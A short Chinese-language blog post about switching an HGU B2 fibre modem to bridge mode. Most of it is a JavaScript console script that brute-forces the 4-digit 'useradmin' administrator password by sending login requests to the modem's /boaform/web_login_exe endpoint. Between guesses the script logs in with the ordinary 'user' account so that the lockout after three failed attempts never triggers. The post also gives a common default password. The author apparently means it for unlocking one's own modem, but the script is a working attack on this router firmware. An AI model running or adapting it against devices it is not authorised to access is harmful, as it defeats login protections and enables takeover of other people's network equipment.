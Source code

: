 最近家里网络有点不稳定，电脑ping个手机能上200ms，在这之前没看过家里的网络拓扑。路由器接在墙上，家里的台式直接接在光猫上，那估计是光猫负责PPPoE拨号了，心想改成桥接试试，让路由器负责拨号可能性能会好点。

针对`HGU B2型家庭网关`。B1参考这两篇文章-->  [文章1](https://zhuanlan.zhihu.com/p/479280294)，[文章2](https://blog.csdn.net/u013782446/article/details/128642923)

#### 获取步骤

1. 光猫有一个`user`账户，密码一般是`12345678`（我google的），如果你知道自己的光猫密码就省略这一步，不知道的话先试试，如果实在不知道，可以试试打电话问运营商。一般输错三次就会强制冷却一分钟，所以要绕过多次试错的冷却机制，没有`user`账户密码的话，后面就无法进行。

2. 浏览器输入光猫后台地址，一般是`192.168.1.1`，不用登录，打开开发者模式，在控制台粘贴以下代码，注意`var web_Password`要改成能成功登录的`user`账户的密码

```javascript
var issucc = 0;
for(i=0; i<10000 && !issucc; i++) {
  var web_Username = 'useradmin';
  var web_Password = (Array(4).join(0)+i).slice(-4);
  var obj = new Object;
  obj.web_login_name = web_Username;
  obj.web_login_password = b64_md5(web_Password);
  var cgipath = "/boaform/";
  var nonedatav = Math.random();
  sendRequest(cgipath+"web_login_exe", obj, function(data) {
    if(data == "success_telecomadmin") {
      alert(web_Password);
      issucc = 1;
    } else {
        console.log(data+": "+web_Password);
    }
  });
  var web_Username = 'user';
  var web_Password = '你的user账户的密码';
  var obj = new Object;
  obj.web_login_name = web_Username;
  obj.web_login_password = b64_md5(web_Password);
  var cgipath = "/boaform/";
  var nonedatav = Math.random();
  sendRequest(cgipath+"web_login_exe", obj, function(data) {
	console.log("skip ban: "+data);
  });
}
```

如图

![](image/getAdminPassword.png)

然后回车等待出现弹窗，即`useradmin`密码，类似于这样

![](image/alert.png)

然后就可以输入密码进入管理员后台了。